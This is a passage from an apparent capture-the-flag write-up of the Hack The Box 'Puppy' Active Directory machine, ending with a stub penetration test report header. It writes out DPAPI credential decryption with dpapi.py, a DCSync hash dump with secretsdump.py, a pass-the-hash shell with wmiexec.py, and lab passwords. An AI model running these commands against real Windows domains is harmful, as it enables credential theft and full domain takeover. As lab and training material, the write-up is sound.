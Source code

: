 Confirm access via WinRM.

## 9. Privilege Escalation: DPAPI Dump

List DPAPI files:  
```
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
```

Download via SMB and decrypt using `dpapi.py` from Impacket:  
```bash
dpapi.py masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-...
dpapi.py credential -f credential_blob -key <decrypted_master_key>
```

**New Credentials Obtained:**  
- **User:** steph.cooper_adm  
- **Password:** FivethChipOnItsWay2025!

## 10. Final Escalation: DCSync Attack

Dump full domain NTLM hashes:  
```bash
secretsdump.py PUPPY.HTB/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.70
```

Get shell as Domain Admin:  
```bash
wmiexec.py -hashes :<NTLM_HASH> PUPPY.HTB/steph.cooper_adm@10.10.11.70
```

Capture root flag:  
```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

## Lessons Learned

- Always run BloodHound early, even with low-privilege users.  
- `GenericWrite` permissions are powerful but often overlooked.  
- KeePass vaults, backups, and config files are juicy low-hanging fruit.  
- Combining BloodHound, password reuse, and misconfigurations results in a full pwn chain.  
- DPAPI and DCSync are critical Red Team concepts.  
- Privilege escalation isn’t always about exploits — often it’s about smart permission abuse.
<br><br>
# Penetration Test Report

**Client:** HTB

**Engagement:** Penetration Test - Windows Active Directory Environment

**Date:** June 2025
